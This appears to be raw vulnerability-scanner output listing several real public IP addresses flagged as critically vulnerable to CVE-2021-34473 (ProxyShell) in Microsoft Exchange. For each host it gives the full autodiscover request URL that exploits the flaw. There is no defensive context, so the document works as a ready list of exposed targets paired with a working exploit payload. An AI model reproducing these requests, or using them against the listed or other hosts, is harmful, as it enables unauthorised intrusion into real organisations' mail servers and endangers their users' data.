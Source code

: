 [CVE-2021-34473] [http] [critical] https://62.112.111.34/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 5.188.107.229  
  
---  
[CVE-2021-34473] [http] [critical] https://5.188.107.229/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 62.140.233.211  
  
---  
[CVE-2021-34473] [http] [critical] https://62.140.233.211/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 77.37.212.186  
  
---  
[CVE-2021-34473] [http] [critical] https://77.37.212.186/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://77.37.212.186/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 78.108.199.58  
  
---  
[CVE-2021-34473] [http] [critical] https://78.108.199.58/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://78.108.199.58/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 78.138.158.194  
  
---  
[CVE-2021-34473] [http] [critical] https://78.138.158.194/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://78.138.158.194/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 78.24.178.74  
  
---  
[CVE-2021-34473] [http] [critical] https://78.24.178.74/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://78.24.178.74/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
